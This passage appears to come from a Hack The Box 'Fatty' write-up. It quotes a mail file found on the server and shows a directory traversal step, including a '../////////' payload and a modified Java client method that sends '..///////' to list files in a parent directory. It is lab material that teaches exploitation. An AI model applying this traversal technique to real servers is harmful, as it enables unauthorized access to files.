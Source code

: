 After enumerating the server with `qtc` permissions, we saw the following file which informs qtc that only his user is enabled and all admin users removed, this is useful information for later steps.

Contents of `-> mail -> dave.txt`

```bash
Hey qtc,

until the issues from the current pentest are fixed we have removed all administrative users from the database.
Your user account is the only one that is left. Since you have only user permissions, this should prevent exploitation
of the other issues. Furthermore, we implemented a timeout on the login procedure. Time heavy SQL injection attacks are
therefore no longer possible.

Best regards,
Dave
```

## Directory Traversal

At this point we had no idea of how to proceed as we still missing some server behavior knowledge prior exploitation of other vulnerabilities.

Now is time to check if directory traversal was a thing and it was, we were able to see some other files in a previous directory, but due some server side input validation only a single directory traversal was possible.

In the traversed directory with `../////////` payload we can see a file called `fatty-server.jar`

Modify `src/htb/fatty/client/methods/Invoker.java`, might need to import some other classes at the begining of the java file.

Modified code for directory traversal file listing

```java
  public String showFiles(String folder) throws MessageParseException, MessageBuildException, IOException {
    String methodName = (new Object() {  }).getClass().getEnclosingMethod().getName();
    logger.logInfo("[+] Method '" + methodName + "' was called by user '" + this.user.getUsername() + "'.");
    if (AccessCheck.checkAccess(methodName, this.user)) {
      return "Error: Method '" + methodName + "' is not allowed for this user account";
    }

    this.action = new ActionMessage(this.sessionID, "files");
    this.action.addArgument("..///////");
    sendAndRecv();
    if (this.response.hasError()) {
      return "Error: Your action caused an error on the application server!";
    }
    return this.response.getContentAsString();
  }
```
